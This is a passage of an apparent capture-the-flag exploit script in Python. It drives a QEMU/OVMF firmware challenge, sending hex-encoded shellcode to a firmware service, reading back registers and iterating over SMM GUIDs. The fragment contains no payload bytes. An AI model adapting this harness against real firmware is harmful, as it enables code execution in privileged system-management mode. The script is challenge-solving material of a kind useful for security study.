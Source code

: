 ```python
            data = line.split("=")
            if len(data) == 2:
                temp_name = data[0].strip()
                temp_guid = (
                    data[1].strip().replace("{", "").replace("}", "").strip().split(",")
                )
                cur_guid = ""
                if len(temp_guid) == 11:
                    for i in range(len(temp_guid)):
                        temp_bits = temp_guid[0 - i - 1]
                        if 0 <= i and i < 8:
                            cur_guid += hex(int(temp_bits, 16))[2:].rjust(2, "0")
                        elif 8 <= i and i < 10:
                            cur_guid += hex(int(temp_bits, 16))[2:].rjust(4, "0")
                        elif 10 <= i:
                            cur_guid += hex(int(temp_bits, 16))[2:].rjust(8, "0")
            res_dict[temp_name] = "0x" + cur_guid


def dump_register(reg_list):
    assert len(reg_list) == 15
    for i in range(15):
        lianpwn.info(f"reg[{i}] -> {hex(reg_list[i])}")


def execute_shellcode(shellcode, cowsay=False):
    result = []
    shellcode = shellcode.hex().encode()
    s(shellcode + b"\r\n" + b"done\r\n")
    ru(b"Running...\r\n")
    if cowsay:
        ru(b"< ")
        return ru(b" >", "drop")
    for i in range(14):
        ru(b": 0x")
        result.append(int(ru(b"R", "drop"), 16))
    ru(b": 0x")
    result.append(int(ru(b"Done! Type more code\r\n", "drop"), 16))
    # dump_register(result)
    return result


for guid_name, guid_value in res_dict.items():
    if not "Smm" in guid_name:
        continue
    fname = "OVMF_VARS_copy.fd"
    subprocess.call(["cp", "OVMF_VARS.fd", fname])
    subprocess.call(["chmod", "u+w", fname])

    io = process(
        "./qemu-system-x86_64 -d cpu_reset -no-reboot -machine q35,smm=on -cpu max -net none -serial stdio -display none -vga none -global ICH9-LPC.disable_s3=1 -global driver=cfi.pflash01,property=secure,value=on -drive if=pflash,format=raw,unit=0,file=OVMF_CODE.fd,readonly=on -drive if=pflash,format=raw,unit=1,file=OVMF_VARS_copy.fd -drive format=raw,file=fat:rw:rootfs -global isa-debugcon.iobase=0x402 -debugcon file:debug.log".split(),
        env={},
    )

    # lianpwn.lg_inf(
    #     "STEP 0: Receive SystemTable and shellcode Address and Attach to Debugger"
    # )
    ru(b"Address of SystemTable: 0x")
    SystemTable_addr = int(rl(), 16)
```